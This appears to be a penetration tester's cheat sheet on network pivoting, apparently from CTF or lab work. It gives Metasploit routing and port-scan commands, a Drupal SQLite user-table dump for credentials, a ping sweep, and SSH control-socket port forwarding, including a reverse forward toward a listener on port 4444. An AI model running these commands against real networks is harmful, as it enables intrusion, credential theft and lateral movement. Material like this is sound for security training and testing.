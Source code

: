 ## Pivoting

## PortScan Through MSF pivot 
	route add 172.40.0.0 255.255.255.0 1 
	background
	use auxiliary/scanner/portscan/tcp
	set RHOSTS 172.40.0.0/24
	set PORTS 80,443,8000,8080
	
	use auxiliary/scanner/http/http_header
	set RHOSTS 172.40.0.10
	
	### Dump SQL Table
	download /var/www/html/sites/default/files/.ht.sqlite
	sqlite3 .ht.sqlite ".dump users_field_data"
### SSH
	ssh -MS /tmp/Initial mpoor@172.30.0.21
	for i in {1..254} ;do (ping -c 1 172.40.0.$i | grep "bytes from" &) ;done
	ssh -S /tmp/Initial -O forward -L 8080:172.40.0.10:80
	curl 127.0.0.1:8080
	ssh -S /tmp/Initial -O forward -R 0.0.0.0:8080:172.30.0.1:4444
	
	exploit through 172.40.0.1 8080 
	
### NetSH